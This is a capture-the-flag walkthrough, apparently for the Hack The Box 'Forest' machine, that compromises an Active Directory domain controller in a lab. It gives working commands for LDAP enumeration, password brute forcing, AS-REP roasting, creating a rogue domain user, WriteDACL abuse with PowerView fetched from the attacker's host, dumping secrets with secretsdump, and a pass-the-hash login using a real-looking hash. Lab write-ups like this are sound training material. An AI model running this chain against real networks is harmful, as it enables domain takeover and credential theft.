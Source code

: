 # Forest

<details>
<details>
  <summary><strong>Summary</strong></summary>
Scan the machine's ports and find winrm and LDAP services running. Use LDAPsearch to find the password policy has no limits on login attempts and start trying to brute force using crackmapexec. While brute forcing is going, look at impacket examples for more options on what to do <code>/usr/share/doc/python3-impacket/examples</code>. Find the GetNPUsers tool and use it to harvest the non-preauth AS_REP responses for users. Crack the resulting hash using hashcat. Check for which shares the user has access to. Check for winrm ports and use the credentials and evil-winrm to login to the machine. 
Upload Sharphound to the machine and enumerate the AD setup. Move the sharphound file back to linux and view it using Bloodhound. Find a WriteDacl exploit that the base user can perform. Upload Powerview, then perform the WriteDacl exploit, creating a new user with DACL privileges. Use impacket-secretsdump to get secrets, keys, and credentials from all the users. An admin hash was provided, so use a pass-the-hash attack to get a root shell.

</details>
<br>

<summary2><strong>What I Learned</strong></summary2>

<body>

1. Follow the instructions on the Bloodhound and use PowerView (Import-Module) when enumerating
2. use LDAPSearch to look for available information on the server (naming contexts, SAM account types, Object Categories, groups, etc)
3. When running Sharphound on the target always use `-c all` to get all data possible in the scrape
4. When you are not sure what to do with AD instance, go look up impacket examples in `/usr/share/doc/python3-impacket/examples`

</body>
</details>

#### Scan the machine for open ports

![alt text](images/image.png)

LDAP returns a server, so start using ldapsearch
![alt text](images/image-1.png)

Filter the users down from automatically created accounts - find 5 users and save them into users.ldap

```
ldapsearch -x -H 'ldap://10.129.194.239' -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users.ldap
```

Ldapsearch for naming contexts

![alt text](images/image15.png)

Before brute forcing, check the policy for passwords on the AD instance using WinPEAS or crackmapexec

![alt text](images/image-2.png)
![alt text](images/image-3.png)

Brute force the password using crackmapexec  
`crackmapexec smb 10.129.52.209 -u users.out -p pwlist.txt`

Not sure what else to do, so look at impacket examples  
`/usr/share/doc/python3-impacket/examples`  
Find impacket GetNPUsers.py package  
`./GetNPUsers.py -dc-ip 10.129.52.209 -request 'htb.local/'`
Use it and get the service account information
![alt text](images/image-4.png)

Check the open ports for a port using winrm. Find one and try using evil-winrm to login.

![alt text](images/image-5.png)

Login using evil-winrm
![alt text](images/image-6.png)

Upload Sharphound to the target machine using iwr, then run sharphound

![alt text](images/image-7.png)

Look at the results using sharphound. Find an AS-REP Roastable account that is the one we already have access to.
![alt text](images/image-8.png)

Find a Kerberoastable account
![alt text](images/image-9.png)

In Bloodhound, select the shortest path form owned principals and see the path to the account Operators. Find the Windows abuse tab after right clicking to help on the edge between `Account Operators` and `EXCH01 HTB.LOCAL`.
![alt text](images/image-11.png)
![alt text](images/image-10.png)

The Exchange Windows Permissions Group has WriteDACL privileges on the domain, which means any member of the group can access the Discretionary Access Control List on the target domain and grant themselves any privileges on the object.  
Create a new user in the domain group and add it to the "Exchange Windows Permissions" Group

```
net user bob password123 /add /domain
net group "Exchange Windows Permissions" /add bob
```

![alt text](images/image-12.png)
![alt text](images/image-14.png)

Now follow the commands from the WriteDACL line for windows exploitation in the bloodhound graph
First, import Powerview

```
iwr -uri 'http://10.10.14.202/PowerView.ps1' -O PowerView.ps1

Import-Module .\PowerView.ps1
```

Then follow the instructions from Bloodhound. Add the PrincipalIdentity flag and include the identity in the expanded format.

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('HTB\bob', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bob
```

Then use Secretsdump to get the Password dump  
`impacket-secretsdump 'htb.local/bob:Password123!@10.129.36.42'`

![alt text](images/image-13.png)

Execute a pass the hash attack and get the root flag from the Admin Desktop

```
impacket-wmiexec -hashes :32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.129.36.42
```
